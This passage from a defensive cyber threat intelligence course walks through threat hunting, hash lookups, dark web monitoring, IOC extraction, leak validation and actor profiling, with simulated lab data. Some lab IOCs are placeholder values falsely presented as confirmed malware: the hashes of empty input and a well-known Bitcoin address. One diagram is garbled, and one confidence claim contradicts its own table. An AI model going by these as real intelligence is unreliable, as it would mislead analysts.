Operational	SOC Managers, Security Leaders	Plan defensive operations	Medium-term
Tactical	SOC Analysts, Incident Responders	Detect and respond to attacks	Short-term
Technical	Analysts, Engineers	Identify specific threats	Real-time
Example: Each Type for the Same Threat
Type	Example
Strategic	"Ransomware attacks against the education sector increased 45% last year."
Operational	"APT groups are targeting universities for intellectual property."
Tactical	"Attackers are using brute force against RDP to gain initial access."
Technical	"IP 203.0.113.45 is a known C2 server for the LockBit ransomware."
1.4 The CTI Lifecycle
text
┌─────────────────────────────────────────────────────────────┐
│                    1. DIRECTION                             │
│      (Define intelligence requirements)                    │
└────────────────────────┬────────────────────────────────────┘
                         ▼
┌─────────────────────────────────────────────────────────────┐
│                    2. COLLECTION                            │
│           (Gather data from sources)                       │
└────────────────────────┬────────────────────────────────────┘
                         ▼
┌─────────────────────────────────────────────────────────────┐
│                    3. PROCESSING                            │
│          (Normalize, organize, store data)                 │
└────────────────────────┬────────────────────────────────────┘
                         ▼
┌─────────────────────────────────────────────────────────────┐
│                    4. ANALYSIS                              │
│        (Interpret, contextualize, enrich)                  │
└────────────────────────┬────────────────────────────────────┘
                         ▼
┌─────────────────────────────────────────────────────────────┐
│                    5. DISSEMINATION                         │
│           (Share intelligence with stakeholders)           │
└────────────────────────┬────────────────────────────────────┘
                         ▼
┌─────────────────────────────────────────────────────────────┐
│                    6. FEEDBACK                              │
│         (Evaluate and improve the process)                 │
└─────────────────────────────────────────────────────────────┘
1.5 Intelligence Sources
Types of Sources
Source Type	Description	Examples
Open Source	Publicly available	OSINT, security blogs, social media
Commercial	Paid intelligence feeds	Recorded Future, CrowdStrike
Government	Official government sources	CISA, NCSC
Community	Shared intelligence	ISACs, sharing groups
Internal	Organization's own data	SIEM logs, incident reports
Intelligence Quality Criteria
Criterion	Description
Relevance	Does it apply to your organization?
Timeliness	Is it current?
Accuracy	Is it correct?
Reliability	Is the source trustworthy?
Actionability	Can you act on it?
Key Concepts
CTI provides context for security events

There are four types of intelligence (strategic, operational, tactical, technical)

The CTI lifecycle is a continuous process

Intelligence must be relevant, timely, and actionable

Common Mistakes
Collecting too much data – Focus on relevant intelligence

Not sharing intelligence – Intelligence is most valuable when shared

Ignoring the feedback loop – Continuously improve

Interview Questions
Basic:

What is Cyber Threat Intelligence?

What is the difference between information and intelligence?

What are the four types of threat intelligence?

Intermediate:

Explain the CTI lifecycle.

What makes intelligence "actionable"?

Scenario:

You receive an intelligence report about a new threat actor targeting your industry. How do you respond?


---

# IOC THREAT HUNTING & ENRICHMENT

2.1 What is Threat Hunting?
Layer 1: Beginner Explanation
Threat hunting is the proactive search for threats that have evaded existing security controls. Instead of waiting for an alert, hunters actively look for signs of compromise.

Hinglish: Threat hunting mein hum proactively attacks search karte hain—alerts ke aane ka wait nahi karte.

Layer 2: Technical Explanation
Threat hunting is a hypothesis-driven process that combines:

Data analysis – Reviewing telemetry from multiple sources

Curiosity – Asking "what if" questions

Experience – Knowing what to look for

Threat Hunting vs Alert-Based Detection
Aspect	Alert-Based Detection	Threat Hunting
Trigger	Alert fires	Hunter initiates search
Goal	Respond to detected threat	Find undetected threats
Approach	Reactive	Proactive
Focus	Known threats	Unknown and advanced threats
2.2 IOC-Based Hunting
Workflow

2.3 IOC Enrichment Process
Step 1: Identify the IOC
What is the indicator? (IP, domain, hash, etc.)

Step 2: Query Intelligence Sources
Source	What to Check
VirusTotal	File hash reputation
AbuseIPDB	IP reputation
AlienVault OTX	Related indicators
WHOIS	Domain ownership
DNS	DNS records
Step 3: Collect Additional Information
Infrastructure relationships

Associated malware

Threat actor attribution

Historical activity

Step 4: Correlate with Other IOCs
Are there other related indicators?

Do they form a pattern?

Step 5: Assess Confidence
How reliable is the source?

How consistent is the evidence?

Step 6: Document the Enriched IOC
PRACTICAL LAB 9: IOC Threat Hunting
Lab Title: "Find the Hidden Threat"
Objective
Perform proactive threat hunting using IOCs from threat intelligence.

Scenario
You have received threat intelligence about a new malware campaign. The intelligence includes the following IOCs:

text
[2024-11-15 09:20:00] DNS: Query for malware-distribution-network.com from 192.168.1.100
[2024-11-15 09:21:00] Firewall: Connection from 192.168.1.100 to 203.0.113.45 port 80
[2024-11-15 09:22:00] Proxy: GET http://malware-distribution-network.com/payload.exe from 192.168.1.100
[2024-11-15 09:23:00] Endpoint: Process creation - C:\Windows\Temp\payload.exe on 192.168.1.100
[2024-11-15 09:24:00] Endpoint: Process creation - powershell.exe on 192.168.1.100
[2024-11-15 09:25:00] Firewall: Connection from 192.168.1.100 to 203.0.113.100 port 4444
[2024-11-15 09:26:00] Endpoint: File creation - C:\Windows\System32\drivers\malware.sys
Step-by-Step Procedure
Step 1: Search for Each IOC

Domain Search:

Query: malware-distribution-network.com

Found in DNS logs at 09:20:00

IP Search:

Query: 203.0.113.45

Found in Firewall logs at 09:21:00

URL Search:

Query: http://malware-distribution-network.com/payload.exe

Found in Proxy logs at 09:22:00

Hash Search:

Query: e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855

Need to check endpoint file hashes

Step 2: Enrich the IOCs

IOC	Enrichment Result
Domain	Associated with known malware campaign
IP	Malicious C2 server
Hash	Confirmed malware (VirusTotal: 50/70 detection)
Step 3: Identify Affected Systems

System: 192.168.1.100

User: Unknown (investigate)

Step 4: Assess Scope

Single system affected so far

Need to check for lateral movement

Step 5: Create Hunting Report

text
THREAT HUNTING REPORT
====================
Date: 2024-11-15
Hunt Lead: [Your Name]
Intelligence Source: Open-source threat intelligence

HYPOTHESIS:
The organization may have been compromised by the recent malware campaign
using domain malware-distribution-network.com.

FINDINGS:
- DNS query to malware-distribution-network.com from 192.168.1.100
- Network connection to 203.0.113.45 from 192.168.1.100
- Download of payload.exe from malicious domain
- Execution of payload.exe
- C2 connection to 203.0.113.100

AFFECTED SYSTEMS:
- 192.168.1.100 (Identify hostname)

SCOPE:
- Single system identified
- Further hunting recommended for lateral movement

RECOMMENDATIONS:
- Isolate 192.168.1.100
- Block domains and IPs
- Search for additional affected systems
- Escalate to incident response
Key Concepts
Threat hunting is proactive

IOCs from intelligence drive hunting

Enrichment adds context

Scope assessment is critical

Common Mistakes
Not validating findings – Ensure matches are real, not false positives

Stopping too early – Continue hunting for lateral movement

Not documenting – Record your hunting process


---

# MALWARE & HASH INTELLIGENCE

3.1 What is Malware?
Layer 1: Beginner Explanation
Malware (malicious software) is software designed to harm, exploit, or otherwise compromise computer systems. Types include viruses, worms, trojans, ransomware, and spyware.

Hinglish: Malware harmful software hai jo systems ko nuksan pahunchane ke liye banaya gaya hai.

Layer 2: Technical Explanation
Malware is code that performs unauthorized actions on a system, such as:

Stealing data

Encrypting files (ransomware)

Providing remote access

Spreading to other systems

3.2 Malware Families
Common Malware Categories
Category	Description	Examples
Ransomware	Encrypts files, demands payment	LockBit, REvil, Conti
Trojan	Disguises as legitimate software	Emotet, TrickBot
Worm	Self-propagating	Conficker, Morris
Spyware	Steals information	Pegasus
Rootkit	Hides malicious activity	
Backdoor	Provides remote access	Cobalt Strike
3.3 File Hashes
What is a Hash?
A hash is a unique digital fingerprint of a file. Even a tiny change to the file produces a completely different hash.

Hinglish: Hash ek file ka unique fingerprint hai—file mein thoda sa bhi change ho toh hash completely badal jaata hai.

Common Hash Types
Hash Type	Length	Security Level
MD5	32 characters	Weak (collisions possible)
SHA-1	40 characters	Weak (collisions possible)
SHA-256	64 characters	Strong (currently secure)
Why Hashes Matter
Use Case	Description
File Identification	Same hash = same file content
Reputation Check	Check if hash is known malicious
Integrity Monitoring	Detect file changes
Incident Response	Identify malware samples
Important Principle
"Same hash = same file content"

But:

"Unknown hash does NOT automatically mean benign."

3.4 Hash Intelligence
Hash Intelligence Sources
Source	Purpose
VirusTotal	Check hash against 70+ antivirus engines
MalwareBazaar	Malware sample repository
Hybrid Analysis	Dynamic malware analysis
AlienVault OTX	Threat intelligence pulses
How to Investigate a Hash
Submit to VirusTotal – Check detection ratio

Review detection names – Identify malware family

Check metadata – File type, size, creation date

Review relationships – IPs, domains, other files

Assess confidence – How reliable is the detection?

PRACTICAL LAB 10: Hash Intelligence Investigation
Lab Title: "What is This File?"
Objective
Investigate a suspicious file hash using threat intelligence sources.

Scenario
During an incident, you found a suspicious file with this SHA-256 hash:

text
e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855
Step-by-Step Procedure
Step 1: Submit to VirusTotal

Go to VirusTotal

Enter the SHA-256 hash

Review the detection ratio

Example Output:

text
Detection Ratio: 50/70
Malware Family: Trojan.Generic
File Type: PE32 executable
Size: 245 KB
First Submission: 2024-10-01
Step 2: Review Detection Names

Antivirus	Detection Name
Kaspersky	Trojan.Win32.Generic
McAfee	Artemis!E3B0C44298FC
Symantec	Trojan.Gen.2
Microsoft	Trojan:Win32/Emotet!MTB
Step 3: Check Relationships

Associated IPs: 203.0.113.45, 203.0.113.100

Associated Domains: malware-distribution-network.com

Other hashes: (related files)

Step 4: Assess Confidence

Detection ratio: 50/70 = High confidence

Multiple vendors detecting as same family

Confidence: High

Step 5: Document Findings

text
HASH INVESTIGATION REPORT
=======================
Hash: e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855
Malware Family: Trojan.Generic/Emotet
Detection Ratio: 50/70
Confidence: High

Associated Infrastructure:
- IP: 203.0.113.45
- IP: 203.0.113.100
- Domain: malware-distribution-network.com

Recommendation:
- Block hash on endpoints
- Search for hash in SIEM
- Investigate any systems with this file
Key Concepts
Hashes are unique file identifiers

VirusTotal provides multi-engine detection

High detection ratio = high confidence

Unknown hash ≠ benign

Common Mistakes
Trusting a single AV engine – Use multiple sources

Assuming unknown hash is safe – Unknown doesn't mean benign

Not checking relationships – Hashes are connected to other IOCs


---

# DARK WEB & ONION INTELLIGENCE

4.1 Understanding the Web Layers
text
┌─────────────────────────────────────────────────────────────┐
│                     SURFACE WEB                             │
│         (Publicly accessible, indexed by search engines)    │
│              Examples: Google, Facebook, Amazon             │
└─────────────────────────────────────────────────────────────┘
                              │
┌─────────────────────────────────────────────────────────────┐
│                      DEEP WEB                               │
│        (Not indexed, requires authentication)               │
│   Examples: Email, Banking, Medical records, Intranets      │
└─────────────────────────────────────────────────────────────┘
                              │
┌─────────────────────────────────────────────────────────────┐
│                      DARK WEB                               │
│       (Requires special software, anonymous)                │
│      Examples: Onion services, Tor network                  │
└─────────────────────────────────────────────────────────────┘
4.2 The Dark Web
What is the Dark Web?
The dark web is a part of the internet that requires special software (like Tor) to access and is designed to provide anonymity.

Tor Concept
Tor (The Onion Router) is a network that anonymizes internet traffic by routing it through multiple relays.

Onion Services
Onion services are websites that end with .onion and are only accessible through the Tor network.

Threat Actor Communities on the Dark Web
Community Type	Purpose
Forums	Discussions, trading, recruitment
Marketplaces	Selling stolen data, malware, exploits
Leak Sites	Publishing stolen data
Chat Platforms	Real-time communication
Ransomware Ecosystem on the Dark Web

4.3 Defensive Dark Web Intelligence
What is Defensive Dark Web Intelligence?
Defensive dark web intelligence is the legal and ethical monitoring of dark web sources to identify threats to an organization.

Why Organizations Monitor the Dark Web
Reason	Description
Credential Exposure	Detect if employee credentials are stolen
Leak Detection	Identify if organizational data is leaked
Threat Actor Intelligence	Understand adversary plans and capabilities
Early Warning	Detect threats before they impact the organization
What Threat Intelligence Analysts Look For
Indicator	Why It Matters
Credentials	Stolen passwords can lead to breaches
Internal Documents	Data leaks indicate compromise
Threat Actor Chatter	Plans for attacks
Malware Sales	New tools targeting the organization
Important Safety Note
All dark web intelligence work must be:

Legal – Only use authorized sources

Defensive – Focus on protecting your organization

Ethical – Do not engage with criminals

Safe – Do not access illegal content

Key Concepts
The dark web requires special software (Tor) for access

Threat actors use the dark web for communication and trade

Defensive intelligence monitors for threats to the organization

All dark web intelligence work must be legal and ethical

Common Mistakes
Confusing dark web with deep web – They are different

Engaging with threat actors – Never interact with criminals

Accessing illegal content – Stay within legal boundaries


---

# DARK WEB IOC EXTRACTION

5.1 What is IOC Extraction?
IOC extraction is the process of identifying and recording indicators of compromise from threat intelligence sources.

Hinglish: IOC extraction ka matlab hai intelligence sources se indicators (jaise IPs, domains, hashes) ko identify aur record karna.

5.2 Types of IOCs to Extract
Type	Example
Domains	malware-c2.example.com
IP Addresses	203.0.113.45
File Hashes	e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855
Usernames	compromised_user@example.com
Email Addresses	phisher@malicious-domain.com
URLs	http://malware-distribution-network.com/payload.exe
Cryptocurrency Addresses	1A1zP1eP5QGefi2DMPTfTL5SLmv7DivfNa
Actor Aliases	APT29, Wizard Spider, Evil Corp
Malware Names	Emotet, Cobalt Strike, LockBit
File Names	payload.exe, update.ps1
5.3 IOC Extraction Process

PRACTICAL LAB 11: Dark Web IOC Extraction
Lab Title: "Extract the Indicators"
Objective
Extract IOCs from a simulated threat intelligence report.

Scenario
You have received a threat intelligence report about a new ransomware campaign targeting the education sector. Extract all IOCs from the report.

Intelligence Report (Simulated)
text
THREAT INTELLIGENCE REPORT
=========================
TLP: GREEN
Date: 2024-11-15
Subject: New Ransomware Campaign Targeting Universities

Summary:
A new ransomware campaign has been identified targeting universities in
North America and Europe. The campaign uses phishing emails with malicious
attachments to gain initial access. Once access is obtained, the attackers
deploy Cobalt Strike for command and control, followed by LockBit ransomware.

Indicators:
1. Phishing emails are sent from "security@university-notifications.com"
2. Attachments are named "Invoice_2024-11-15.doc" with MD5 hash:
   d41d8cd98f00b204e9800998ecf8427e
3. The malware communicates with C2 server at ransomware-c2.xyz
4. C2 server resolves to IP 203.0.113.45
5. The ransomware binary has SHA-256:
   e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855
6. The attackers are using Bitcoin address:
   1A1zP1eP5QGefi2DMPTfTL5SLmv7DivfNa
7. The group is known as "DarkVector" and has been active since 2023

TTPs:
- Initial Access: Spearphishing Attachment (T1566.001)
- Execution: Malicious File (T1204.002)
- C2: Application Layer Protocol (T1071)
- Impact: Data Encrypted for Impact (T1486)

Recommendations:
- Block the domains and IPs listed above
- Search for the hashes in your environment
- Educate users about phishing emails
- Implement email filtering for the sender domain

Confidence: High (confirmed by multiple sources)
Step-by-Step Procedure
Step 1: Read the Report

Identify potential IOCs throughout the text.

Step 2: Classify Each IOC

Potential IOC	Type	Classification
security@university-notifications.com	Email	Phishing sender
Invoice_2024-11-15.doc	Filename	Malicious attachment
d41d8cd98f00b204e9800998ecf8427e	Hash (MD5)	Malware hash
ransomware-c2.xyz	Domain	C2 server
203.0.113.45	IP Address	C2 server IP
e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855	Hash (SHA-256)	Ransomware binary
1A1zP1eP5QGefi2DMPTfTL5SLmv7DivfNa	Cryptocurrency	Ransom payment
DarkVector	Actor Alias	Threat actor
Step 3: Create IOC Table

IOC Type	IOC Value	Context	Confidence
Email	security@university-notifications.com	Phishing sender	High
Filename	Invoice_2024-11-15.doc	Malicious attachment	High
Hash (MD5)	d41d8cd98f00b204e9800998ecf8427e	Malware hash	High
Domain	ransomware-c2.xyz	C2 server	High
IP	203.0.113.45	C2 server IP	High
Hash (SHA-256)	e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855	Ransomware binary	High
Cryptocurrency	1A1zP1eP5QGefi2DMPTfTL5SLmv7DivfNa	Ransom payment	Medium
Actor	DarkVector	Threat actor	High
Malware	LockBit	Ransomware family	High
Malware	Cobalt Strike	C2 framework	High
Step 4: Identify TTPs

Tactic	Technique	ID
Initial Access	Spearphishing Attachment	T1566.001
Execution	Malicious File	T1204.002
C2	Application Layer Protocol	T1071
Impact	Data Encrypted for Impact	T1486
Expected Output
IOC Extraction Summary:

10 IOCs extracted from intelligence report

4 TTPs identified

All IOCs have High confidence

Recommendations for blocking and monitoring

Key Concepts
IOCs can be extracted from intelligence reports

Different types of IOCs serve different purposes

Confidence levels help prioritize

TTPs provide strategic intelligence

Common Mistakes
Missing IOCs – Read carefully, don't overlook indicators

Not classifying properly – Correct classification is important

Ignoring context – Context helps with investigation


---

# LEAK VALIDATION & INTELLIGENCE CORROBORATION

6.1 What is a Leak Claim?
A leak claim is an assertion that an organization's data has been stolen and published (or will be published) on the dark web.

6.2 Why Leak Claims Can Be False
Reason	Description
Fabrication	The claim is entirely made up
Recycled Data	Old data from previous breaches
Partial Datasets	Incomplete or inaccurate data
Impersonation	Someone pretending to be the organization
Misidentification	Data belongs to a different organization
6.3 Leak Validation Process
```mermaid
graph TD
    A["Leak Claim Received"]
    A --> B["Assess Source Credibility"]
    B --> C["Review Sample Data"]
    C --> D["Verify Data Consistency"]
    D --> E["Check Against Internal Records"]
    E --> F["Seek Independent Corroboration"]
    F --> G["Assess Historical Context"]
    G --> H["Determine Confidence Level"]
    H --> I["Document and Respond"]
    I --> J["Source Credibility Assessment"]
    J --> K["Factor	Question"]
    K --> L["Source Reputation	Has this source been reliable before?"]
    L --> M["Source Motivation	Why are they making this claim?"]
    M --> N["Evidence Quality	What evidence is provided?"]
    N --> O["Consistency	Does the claim align with other intelligence?"]
    O --> P["Technical Validation"]
    P --> Q["Check	What to Verify"]
    Q --> R["Data Format	Does the data match the organization's format?"]
    R --> S["Data Accuracy	Are the details correct?"]
    S --> T["Data Freshness	Is the data current?"]
    T --> U["Data Uniqueness	Is this data publicly available elsewhere?"]
    U --> V["Confidence Levels"]
    V --> W["Confidence	Description"]
    W --> X["Low	Limited evidence, source unreliable"]
    X --> Y["Medium	Some evidence, source moderately reliable"]
    Y --> Z["High	Strong evidence, source reliable"]
    Z --> [["Confirmed	Independently verified"]
```
6.4 Intelligence Corroboration
Why Corroboration Matters
Corroboration is the process of verifying intelligence from multiple independent sources. It increases confidence and reduces the risk of acting on false information.

Corroboration Sources
Source Type	Examples
Technical	Logs, network data, file hashes
Human	Reports from other analysts, contacts
Open Source	Public reports, news, social media
Government	CISA, NCSC alerts
Commercial	Threat intelligence feeds
Corroboration Workflow

PRACTICAL LAB 12: Leak Validation
Lab Title: "Is This Real?"
Objective
Validate a leak claim and assess confidence.

Scenario
A dark web source claims that PIET [Panipat Institute of Engineering & Technology]'s data has been leaked. You need to validate the claim.

Claim Details
text
CLAIM RECEIVED:
Source: Dark Web Forum "CyberLeaks"
Claim: PIET [Panipat Institute of Engineering & Technology] student data leaked
Date Claimed: 2024-11-15
Evidence Provided: Sample of 100 student records

Sample Data (redacted):
Name: John Doe
Student ID: S-2024-001
Email: john.doe@piet.edu
Major: Computer Science
GPA: 3.8

Name: Jane Smith
Student ID: S-2024-002
Email: jane.smith@piet.edu
Major: Business
GPA: 3.5
Step-by-Step Procedure
Step 1: Assess Source Credibility

Factor	Assessment
Source Reputation	"CyberLeaks" is known but has posted false claims before
Source Motivation	Likely seeking attention/reputation
Evidence Quality	Provides sample data
Step 2: Review Sample Data

Names: Are these real students?

Email format: Does it match PIET's format?

Student IDs: Do they follow the correct format?

Step 3: Verify Data Consistency

Check against internal records (simulated):

All student IDs match the correct format (S-YYYY-NNN)

Email addresses match PIET's domain

Names correspond to known students

Step 4: Check Historical Context

Has PIET had data leaks before?

Is this data available elsewhere?

Has this source made similar claims about other universities?

Step 5: Seek Corroboration

Check other dark web sources

Check open-source intelligence

Check with university IT department

Step 6: Determine Confidence

Factor	Assessment
Source Credibility	Medium (known for false claims)
Data Consistency	High (data appears accurate)
Historical Context	No prior breaches of this data
Corroboration	Limited (only one source so far)
Overall Confidence: Medium

Expected Output
Leak Validation Report:

text
LEAK VALIDATION REPORT
=====================
Claim Source: CyberLeaks (Dark Web Forum)
Claim Date: 2024-11-15
Claim: PIET [Panipat Institute of Engineering & Technology] student data leak

VALIDATION SUMMARY:
Source credibility: Medium
Data consistency: High
Historical context: No prior breaches
Corroboration: Limited

CONFIDENCE: Medium

RECOMMENDATIONS:
1. Monitor for additional claims
2. Search for evidence of data exfiltration
3. Notify relevant stakeholders
4. Prepare for potential breach response
5. Continue monitoring dark web sources
Key Concepts
Leak claims require validation

Source credibility is important

Data consistency indicates authenticity

Corroboration increases confidence

Common Mistakes
Believing all leak claims – Many are false

Not verifying sample data – Check accuracy

Ignoring source reputation – Some sources are unreliable


---

# THREAT ACTOR PROFILING & TTP ANALYSIS

7.1 What is a Threat Actor?
A threat actor is an individual or group responsible for a cyber attack.

Threat Actor Attributes
Attribute	Description
Alias	Name used by the actor (e.g., APT29, Wizard Spider)
Motivation	Why they attack (financial, espionage, hacktivism)
Targeting	Who they attack (sector, geography, organization)
Infrastructure	What they use (malware, servers, domains)
Malware	Tools they employ
TTPs	How they operate
Threat Actor Motivations
Motivation	Description	Examples
Financial	Profit-driven	Ransomware groups, cybercriminals
Espionage	Intelligence gathering	State-sponsored APT groups
Hacktivism	Political/social causes	Anonymous
Disruption	Causing damage	Sabotage, warfare
Thrill	Personal challenge	Script kiddies
7.2 TTPs: Tactics, Techniques, Procedures
Definitions
Term	Definition
Tactic	The "why" – the adversary's goal
Technique	The "how" – the method used
Procedure	The "what" – the specific implementation
Example
Level	Example
Tactic	Initial Access – Gain entry to the network
Technique	Spearphishing Attachment – Send malicious email
Procedure	Send email with "Invoice.doc" containing macro
TTP Hierarchy

7.3 Threat Actor Profiling
Profiling Process

Profile Components
Component	Description
Alias	Known names for the actor
Motivation	Why they attack
Targeting	Who they target
TTPs	How they operate
Infrastructure	What they use
Malware	Tools they employ
Confidence	How certain is the attribution?
Important Note
Correlation is not the same as attribution.

Just because an attack uses similar TTPs to a known group does not guarantee it is that group. Attribution requires high-confidence evidence.

PRACTICAL LAB 13: Threat Actor Profiling
Lab Title: "Who Is DarkVector?"
Objective
Profile a threat actor based on intelligence.

Scenario
You have gathered intelligence about a threat actor known as "DarkVector." Create a profile based on the information.

Intelligence
text
INTELLIGENCE SUMMARY: DarkVector

Aliases: DarkVector, DV-23
Active Since: 2023
Target Sector: Education, Healthcare
Geography: North America, Europe
Motivation: Financial (ransomware)

Malware:
- LockBit ransomware (custom variant)
- Cobalt Strike for C2
- Custom PowerShell scripts

Infrastructure:
- Domains: darkvector-c2.xyz, update-service.net
- IPs: 203.0.113.45, 203.0.113.100
- Uses bulletproof hosting providers

TTPs:
- Initial Access: Spearphishing (T1566)
- Execution: PowerShell (T1059.001)
- Persistence: Scheduled Task (T1053.005)
- Defense Evasion: Obfuscated Files (T1027)
- Discovery: System Information Discovery (T1082)
- C2: Application Layer Protocol (T1071)
- Exfiltration: Exfiltration Over C2 Channel (T1041)
- Impact: Data Encrypted for Impact (T1486)

Confidence: High (multiple sources)

Recent Activity:
- November 2024: Attack on Eastwood University
- October 2024: Attack on St. Mary's Hospital
- September 2024: Attack on TechEd University
Step-by-Step Procedure
Step 1: Identify Key Attributes

Attribute	Value
Alias	DarkVector, DV-23
Active Since	2023
Motivation	Financial (ransomware)
Target Sector	Education, Healthcare
Geography	North America, Europe
Step 2: Identify Malware Used

LockBit ransomware

Cobalt Strike

Custom PowerShell scripts

Step 3: Identify Infrastructure

Domains: darkvector-c2.xyz, update-service.net

IPs: 203.0.113.45, 203.0.113.100

Bulletproof hosting

Step 4: Map TTPs to MITRE ATT&CK

Tactic	Technique	ID
Initial Access	Spearphishing	T1566
Execution	PowerShell	T1059.001
Persistence	Scheduled Task	T1053.005
Defense Evasion	Obfuscated Files	T1027
Discovery	System Information Discovery	T1082
C2	Application Layer Protocol	T1071
Exfiltration	Exfiltration Over C2 Channel	T1041
Impact	Data Encrypted for Impact	T1486
Step 5: Create Profile

text
THREAT ACTOR PROFILE
===================
Name: DarkVector
Aliases: DarkVector, DV-23

MOTIVATION:
Financial (ransomware operations)

TARGETING:
- Sector: Education, Healthcare
- Geography: North America, Europe

MALWARE:
- LockBit ransomware (custom variant)
- Cobalt Strike
- Custom PowerShell scripts

INFRASTRUCTURE:
- Domains: darkvector-c2.xyz, update-service.net
- IPs: 203.0.113.45, 203.0.113.100
- Bulletproof hosting providers

TTPs:
- Spearphishing (T1566) for initial access
- PowerShell (T1059.001) for execution
- Scheduled Tasks (T1053.005) for persistence
- Obfuscated files (T1027) for defense evasion
- Application Layer Protocol (T1071) for C2
- Data Encrypted for Impact (T1486)

CONFIDENCE: High

RECENT ACTIVITY:
- Nov 2024: Eastwood University
- Oct 2024: St. Mary's Hospital
- Sep 2024: TechEd University

RECOMMENDATIONS:
- Implement email filtering for spearphishing
- Monitor for PowerShell execution
- Block known domains and IPs
- Implement multi-factor authentication
- Regular backups for ransomware recovery
Key Concepts
Threat actors have distinct attributes

